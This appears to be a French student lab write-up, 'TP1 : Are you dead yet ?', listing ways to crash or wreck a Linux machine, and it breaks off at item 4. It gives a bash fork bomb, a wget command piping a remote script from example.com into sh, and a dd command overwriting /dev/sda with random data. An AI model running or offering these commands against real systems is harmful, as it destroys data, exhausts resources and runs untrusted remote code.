# TP1 : Are you dead yet ?

1 : 

- avec cette commande :
    ```:(){:|:&};:```

 Il s'agit d'une fonction bash simple qui crée des copies de lui-même qui à son tour crée un autre ensemble de copies de lui-même.

2 : 

- en mettant une NAT et en installant ensuite un scipt malveillant.
installer le script avec cette commande :
    ```wget http://example.com/something -O – | sh —```

3 : 

- avec cette commande :
    ```dd if=/dev/random of=/dev/sda```

cette commande va écrire sur le disque dur plein de déchets aléatoirement.

4 :